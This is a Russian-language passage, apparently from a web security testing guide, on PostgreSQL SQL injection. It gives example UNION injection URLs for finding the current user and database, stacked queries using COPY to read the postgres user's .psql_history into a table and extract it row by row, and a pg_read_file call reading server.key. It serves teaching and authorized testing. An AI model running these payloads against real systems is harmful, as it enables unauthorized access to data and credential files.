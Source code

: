 ```text
http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Текущая база данных

Встроенная функция current\_database() возвращает имя текущей базы данных.

##### Пример

`http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Чтение из файла

PostgreSQL предоставляет два способа доступа к локальному файлу:

- Оператор `COPY`
- встроенняя функция `pg_read_file()` (начиная с PostgreSQL 8.1)

##### COPY

Этот оператор копирует данные между файлом и таблицей. PostgreSQL обращается к локальной файловой системе как пользователь `postgres`.

###### Пример

```php
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Данные извлекаются путём выполнения `UNION Query SQL Injection`:

- извлекает количество строк, ранее добавленных в `file_store` с помощью оператора `COPY`
- извлекает по одной строке за раз с помощью SQL-инъекции UNION

```php
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

Эта функция появилась в `PostgreSQL 8.1` и позволяет читать произвольные файлы, расположенные внутри каталога данных СУБД.

###### Пример

`SELECT pg_read_file('server.key',0,1000);`

#### Запись в файл

Переворачивая оператор COPY, мы можем писать в локальную файловую систему с правами пользователя `postgres`
